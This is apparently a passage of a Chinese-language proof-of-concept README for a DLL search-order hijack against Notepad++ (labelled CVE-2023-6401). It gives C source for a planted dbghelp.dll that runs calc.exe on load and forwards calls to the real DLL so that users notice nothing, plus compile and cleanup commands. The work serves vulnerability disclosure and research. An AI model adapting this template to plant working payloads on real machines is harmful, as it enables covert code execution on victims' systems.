 #### 核心代碼

```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 執行惡意程式碼
        WinExec("calc.exe", SW_SHOW);
        MessageBoxA(NULL, "CVE-2023-6401 Crack", "Alert", MB_OK);

        // 載入真實DLL並轉發API調用
        char systemPath[MAX_PATH];
        GetSystemDirectoryA(systemPath, MAX_PATH);
        strcat(systemPath, "\\dbghelp.dll");
        realDbghelp = LoadLibraryA(systemPath);
        
        if (realDbghelp)
            realImageNtHeader = (pImageNtHeader)GetProcAddress(realDbghelp, "ImageNtHeader");
        break;
    }
    return TRUE;
}
```

#### 關鍵特點

- **搜尋順序劫持**：利用Windows DLL搜尋機制
- **API轉發**：載入真實DLL並轉發函式調用，保持應用程式正常運行
- **隱蔽性**：用戶察覺不到異常

### 編譯選項

#### MinGW (推薦)
```cmd
gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows
```

### 清理

```cmd
# 移除惡意DLL
del "C:\Program Files\Notepad++\dbghelp.dll"

# 確認移除
dir "C:\Program Files\Notepad++\dbghelp.dll" 2>nul || echo "清理完成"
```

### 參考資料

- [CVE-2023-6401](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6401)
- [Microsoft DLL搜尋順序](https://learn.microsoft.com/windows/win32/dlls/dynamic-link-library-search-order)
- [MITRE ATT&CK T1574.001](https://attack.mitre.org/techniques/T1574/001/)
